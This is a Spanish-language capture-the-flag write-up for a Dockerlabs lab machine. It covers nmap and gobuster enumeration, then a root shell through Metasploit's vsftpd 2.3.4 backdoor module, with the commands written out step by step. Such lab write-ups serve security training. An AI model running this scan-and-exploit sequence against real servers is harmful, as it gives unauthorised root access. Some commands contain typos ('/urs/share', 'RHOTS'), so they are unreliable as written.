










# Write-up: BreakMySSH

- **Nombre de la máquina:** `Tproot` 
- **Plataforma:** `Dockerlabs` 
- **IP:** `172.17.0.2` 
- **SO:** `Linux` 
- **Dificultad:** `Muy Fácil`

-----------------------

## 1. RECONOCIMIENTO

El objetivo de esta fase es identificar los puntos de entrada y servicios expuestos en la máquina víctima.

#### 1.1. Verificación de Conectividad

Se lanza un `ping` para confirmar que la máquina está activa y obtener el TTL lo que puede darnos una primera pista sobre el sistema operativo.
	`ping 172.17.0.2`
Nos devuelve conectividad y un TTL=64 por lo que estamos ante una máquina Linux. 



#### 1.2. Escaneo de Puertos

Se realiza un escaneo con **Nmap** para descubrir puertos abiertos, los servicios que corren en ellos y sus versiones.

```
sudo nmap -p- -sV -sC -sS --min-rate 5000 --open -n -Pn 172.17.0.2 -oN port_scan.txt
```

**Puertos Descubiertos:**

| Puerto | Servicio | Versión       | Notas                                 |
| ------ | -------- | ------------- | ------------------------------------- |
| 21     | FTP      | vsftpd 2.3.4  | Servicio de transferencia de archivos |
| 80     | HTTP     | Apache 2.4.58 | Servicio web                          |


/



## 2. ENUMERACIÓN

Una vez identificados los servicios, se procede a investigarlos en profundidad en busca de vulnerabilidades o información útil.
### 21(FTP)

No existen herramientas propias para enumerar `FTP` por lo que utilizaremos `Nmap` 

`sudo nmap -p21 --script ftp-anon 172.17.0.2`

Comprobamos con un script de `Nmap` si tendríamos acceso al servicio con un usuario anónimo. 


El servidor nos rechaza. 


### Puerto 80 ( HTTP)

#### Enumeración Manual:

- **Navegación web:** Se visita el sitio en `http://172.17.0.2.
    Tenemos una página por defecto de Apache. 
    
    
- **Análisis del código fuente:** Se revisa el HTML en busca de comentarios, rutas o scripts ocultos.
    No encontramos nada relevante
	
- **Archivos comunes:** Se buscan manualmente archivos y directorios comunes:
	- `/robots.txt`-->X
	- `/sitemap.xml`--> X
	- `/login`--> X
	- `/admin`--> X
	- `/panel`--> X
	- `/user`--> X
	- `/panel`--> X
	- `backup`--> X
	- `uploads`--> X
	- `test, etc.`--> X
    
    No encontramos nada
#### Enumeración Automática:

Lanzamos la herramienta `whatweb` para Identificar las tecnologías del servidor en nuestro caso Apache:

`whatweb 172.17.0.2`




Lanzamos la herramienta de enumeración `gobuster` para buscar directorios ocultos y extensiones .php,.txt y .html 

```
gobuster dir -u http://172.17.0.2/ -w /urs/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html -k
```

![[Imagenes/Pasted image 20250806172958.png]]
**Hallazgos:**

- Nos devuelve algunas rutas, pero nada llamativo


En este punto, con la imposibilidad de poder iniciar sesión como usuario anónimo y no haber encontrado nada relevante en el servicio `http` optamos por revisar las vulnerabilidades conocidas para la versión del servicio `ftp` :`vsftp 2.3.4`

Para ello abriremos `metasploit`

`msfconsole -q`

y buscamos con el comando `search` la versión del servicio `ftp`
```
search vsftp: 2.3.4
```



**Hallazgos:**

- Exploit disponible en la BBDD de `metasploit` : `Backdoor Command Execution`


## 3. EXPLOTACIÓN

### 3.1 Lanzamiento de exploit y acceso inicial.

Para seleccionar el exploit que queremos haremos uso del comando `use` acompañado del numero que corresponda al exploit en la columna `#`

1. `use 0`

Continuaremos viendo las opciones necesarias para configurar nuetsrao exploit para ello podemos utilizar o `options` o `show options`
2.  `show options`
   

Se nos desplegará una lista  en la que debemos añadir utilizando el comando `set` la información que se marque como `yes` en la columna de Required. 
En nuestro caso se trata de `RHOSTS` que hace referencia a la máquina objetivo. 

3. `set RHOSTS 172.17.0.2`
   

Una vez tengamos lista nuestra configuración. Lanzaremos el exploit con el comando `run` o `exploit` 

4. `run`

Conseguimos entrar como usuario con máximos privilegios `root` con  sesión de  shell poco interactiva.



Comandos de `metasploit`:

1. `use 0`
2. `show options`
3. `set RHOTS 172.17.0.2`
4. `run`


SOMOS ROOT 🚀


